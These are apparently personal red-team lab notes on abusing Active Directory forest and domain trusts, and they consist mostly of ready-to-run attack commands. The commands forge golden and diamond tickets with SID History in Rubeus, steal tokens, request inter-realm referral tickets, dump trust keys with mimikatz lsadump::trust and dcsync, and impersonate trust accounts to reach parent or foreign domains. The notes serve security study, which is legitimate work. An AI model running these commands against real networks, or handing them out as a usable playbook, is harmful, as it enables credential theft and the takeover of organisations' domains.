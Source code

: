 # Forest and Domain Trusts Notes

child domains are added to forests with a transitive, two-way trusts with its parent

list trust
```
powershell Get_DomainTrust
```

things to look at:
- Sourcename - current domain
- Targetname - foreign domain
- TrustDirection - trust direction applied
- TrustAttributes - can tell us if both domains are in a forest. WITHIN_FOREST can indicate a child/parent relationship

DA privs in the child means DA privs in the parent using a TGT with the SID History attribute

## Golden Ticket with SID History

need target groups SID
```
powershell Get-DomainGroup -Identity "Domain Admins" -Domain <parent domain> -Properties ObjectSid
```

create golden ticket
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:<krbtgt hash> /user:Administrator /domain:<child domain> /sid:<child domains sid> /sids:<target groups SID> /nowrap
```

import
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:Administrator /password:FakePass /ticket:<base64>
steal_token <PID>
```

now we can interact with the parent domains stuff
```
ls \\<parent domains dc>\c$
```

## Diamond Ticket with SID History

the diamond flag let's use specify additional sids to add

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:<target groups sid> /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap
```

## One-Way Inbound

if you have an Inbound trust in the TrustDirection from below
```
powershell Get-DomainTrust
```

it means that principals in our domain can be granted access to resources in the foreign domain
enum across
```
powershell Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName
```

enum any groups with users outside of our domain and return the members, use second command to convert the SID
```
powershell Get-DomainForeignGroupMember -Domain <other domain with inbound trust with>
powershell ConvertFrom-SID <SID>
```

in this example we hop the trust we need to impersonate one of members part of the built-in administrators group 
setps:
1. find the users of this group
2. obtain a TGT for the target user
3. use TGT to req a referral ticket
4. use this inter-realm ticket to req TGS's in the target domain
```
powershell Get-DomainGroupMember -Identity "Studio Admins" | select MemberName
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:<user> /domain:<current domain> /aes256:<user hash> /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/<target domain> /domain:<current domain> /dc:<current domain dc> /ticket:<base64> /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/<target domain dc> /domain:<target domain> /dc:<target dc> /ticket:<base64> /nowrap
```

## One-Way Outbound

this means the other domain has trust in the current domain, but not the other way around
```
powershell Get-DomainTrust -Domain <domain>
```

can partially exploit this and obtain "domain user" access to this other domain by leveraging a shared credential for the trust. We are looking for a Trusted Domain Object (TDO). 
enum for TDO's
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=trustedDomain)" --domain cyberbotic.io --attributes distinguishedName,name,flatName,trustDirection
```

two ways to abuse, move laterally ot the DC and dump from memory
```
mimikatz lsadump::trust /patch
```

or dcsync with the TDOs GUID
```
powershell Get-DomainObject -Identity "CN=msp.org,CN=System,DC=cyberbotic,DC=io" | select objectGuid
mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{<guid from above>}
```

there is also a trust account that exists with the name of the trusting domain, we'll see this in this enumeration
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=user)"
```

this means the target domain will have a trust account named our domain$, this is the account we must impersonate
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:<domain>$ /domain:<target domain> /rc4:<rc4 of password from dcsync> /nowrap
import:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:<current domain> /username:domain$ /password:FakePass /ticket:<base64>
steal_token <PID>
powershell Get-Domain -Domain <target domain>
```

